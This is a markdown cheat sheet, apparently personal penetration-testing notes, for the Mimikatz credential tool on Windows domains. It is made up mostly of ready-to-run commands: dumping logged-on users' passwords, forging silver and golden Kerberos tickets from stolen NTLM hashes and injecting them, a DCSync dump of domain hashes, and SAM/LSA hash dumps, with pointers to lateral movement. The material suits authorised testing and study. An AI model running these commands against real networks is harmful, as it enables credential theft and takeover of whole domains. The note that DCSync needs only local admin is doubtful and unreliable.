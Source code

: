 # Mimikatz

cheat sheet 
[mimikatz cheatsheet](https://kashz.gitbook.io/kashz-jewels/cheatsheet/mimikatz)

## Silver Tickets

Using an admin powershell and open mimikatz:

```
privilege::debug
```

and follow up with:

```
token::elevate
```

get passwords of logged on users:

```
sekurlsa::logonpasswords
```
Now, if we get the NTLM hash of an SPN with privleges to a service we want access to, we can forge a silver ticket.

```
kerberos::golden /sid:${DOMAIN_SID} /domain:${DOMAIN} /target:${RHOST_IP} /service:http /rc4:${NTLM_HASH} /user:${DOMAIN_USER} /ptt
```
The `$DOMAIN_SID` can be retrieved by doing `whoami /user` from a domain user and getting everything but the last section (which identifies the user).
Note that the user argument just has to be a valid user from the domain.
What determines the access rights is the NTLM hash and not the user, so you can even put the current user.

Afterwards, do `exit` and check that the ticket is loaded into memory with `klist`.

We can now use it to move laterally with the techniques mentioned [here](./lateral-movement.md).


## Golden Tickets

Golden Tickets are just Silver Tickets for the krbtgt account.
This grants access to all services using Kerberos authentication.

Another example of the above command (note we pass the NTLM hash to `/krbtgt` and don't specify a specific target):


```
kerberos::golden /sid:${DOMAIN_SID} /domain:${DOMAIN} /krbtgt:${KRBTGT_NTLM} /user:${DOMAIN_USER} /ptt

```
Followed up with:

```
misc::cmd
```

Now, eg.  `PsExec` can be run from CMD with the ticket.


## DSYNC

mimikatz can help us attempt to get the NTLM of a user in the domain by performing a dsync attack:
(requires local admin).

```
lsadump::dcsync /user:${DOMAIN}\${USER}
```
## Dump hashes

Dump with either:
```
lsadump::sam
lsadump::lsa [/inject | /patch]
```
